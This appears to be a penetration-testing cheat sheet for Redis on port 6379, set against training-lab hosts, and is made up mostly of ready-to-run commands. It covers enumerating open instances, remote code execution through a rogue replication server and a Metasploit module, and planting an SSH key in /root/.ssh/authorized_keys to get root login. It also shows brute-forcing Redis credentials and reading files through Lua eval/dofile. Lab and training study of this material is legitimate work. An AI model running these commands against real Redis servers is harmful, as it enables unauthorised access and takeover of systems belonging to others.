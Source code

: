 # 6379 (Redis)

## Enumeration

### Automatic

#### nmap

```bash
nmap --script redis-info -sV -p 6379 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/redis/redis_server
```

### Manual

#### Telnet, Netcat, Redis-cli

```bash
telnet <IP> 6379
nc -vn <IP> 6379
redis-cli -h <IP>
```

Commands:

```bash
# Check version info etc. as well as the ability to run commands without auth
INFO
# List all the stored keys.
KEYS *
# Get the value of a stored key
GET <KEY>
# Other
config get *
config get dir
```

#### Curl Gopher

```
curl gopher://demo1.ine.local:6379/_GET%20flag --max-time 1
```

## Exploitation

### Rogue Server

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server
cd redis-rogue-server/
./redis-rogue-server.py --rhost 192.168.76.69 --lhost 127.0.0.1
# or
python3 redis-rogue-server.py --rhost 192.168.76.69 --rport 6379 --lhost 192.168.49.76 --lport 6379

```

### Unauthenticated Redis Server

#### Metasploit

```bash
msfconsole
search redis
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS <IP>
set LHOST <IP>
set SRVHOST <IP>
exploit
```

### Overwriting Arbitrary Files

#### Redis-cli

```bash
# Generate Key Pair
ssh-keygen
ssh-key
<enter>
<enter>
# Copy key file and place onto Redis server naming it test
(echo -e "\n\n"; cat /root/ssh-key.pub; echo -e "\n\n") > key
cat key | redis-cli -h demo2.ine.local -x set test
# Dump the key to the target machine /root/.ssh/ directory using redis-cli
redis-cli -h demo2.ine.local
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
# We have successfully uploaded the public key as authorized_keys.
# Access the target machine
ssh -i ssh-key root@demo2.ine.local
```

#### Metasploit

```bash
use auxiliary/scanner/redis/file_upload
set RHOSTS demo2.ine.local
set LocalFile /root/key
set RemoteFile /root/.ssh/authorized_keys
exploit
```

### Attacking Protected Redis

#### Metasploit

```bash
use auxiliary/scanner/redis/redis_login
set RHOSTS demo3.ine.local
exploit
# We found a credential
redis-cli -h demo3.ine.local
AUTH daniel
KEYS *
GET <KEY>
```

### Eval Abuse

> CTF Ex: Doing some research it is found that abuse of the eval and dotfile can be used

```bash
# Get the contents of the user.txt file
redis-cli -h <IP> -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0

```



